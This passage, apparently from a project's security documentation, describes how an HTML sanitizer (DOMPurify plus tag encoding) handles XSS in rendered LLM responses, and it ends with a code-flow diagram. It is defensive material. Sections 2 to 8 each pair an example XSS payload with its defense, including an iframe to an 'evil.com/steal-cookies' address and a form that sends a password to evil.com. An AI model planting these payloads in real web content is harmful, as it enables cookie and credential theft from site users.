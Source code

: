 ### 2. Event Handler Injection

**Attack**: `<img src=x onerror=alert('XSS')>`
**Defense**: onerror attribute is stripped by DOMPurify (attributes can't be safely encoded)

### 3. JavaScript URL Schemes

**Attack**: `<a href="javascript:alert('XSS')">Click</a>`
**Defense**: Href is sanitized to remove javascript: scheme

### 4. iframe Embedding

**Attack**: `<iframe src="https://evil.com/steal-cookies"></iframe>`
**Defense**: iframe tags are encoded to `&lt;iframe...&gt;`, displaying as text

### 5. Data URI Exploitation

**Attack**: `<a href="data:text/html,<script>alert('XSS')</script>">Click</a>`
**Defense**: data: URIs are blocked

### 6. CSS Injection

**Attack**: `<style>body { background: url('javascript:alert(1)') }</style>`
**Defense**: Style tags are encoded to `&lt;style&gt;...&lt;/style&gt;`, displaying as text

### 7. Form Hijacking

**Attack**: `<form action="https://evil.com"><input name="password"></form>`
**Defense**: Form and input tags are encoded, displaying as text

### 8. Object/Embed Plugins

**Attack**: `<object data="malicious.swf"></object>`
**Defense**: Object and embed tags are encoded, displaying as text

## Code Flow

```
LLM Response → extractHTMLFromMarkdown()
              ↓
           sanitizeHTMLSafe()
              ↓
           sanitizeHTML()
              ↓
        encodeDangerousTags()  ← Encode dangerous tags to HTML entities
              ↓
        DOMPurify.sanitize()   ← Strip dangerous attributes
              ↓
      Validation & Warning Check
              ↓
        Safe HTML → innerHTML
```
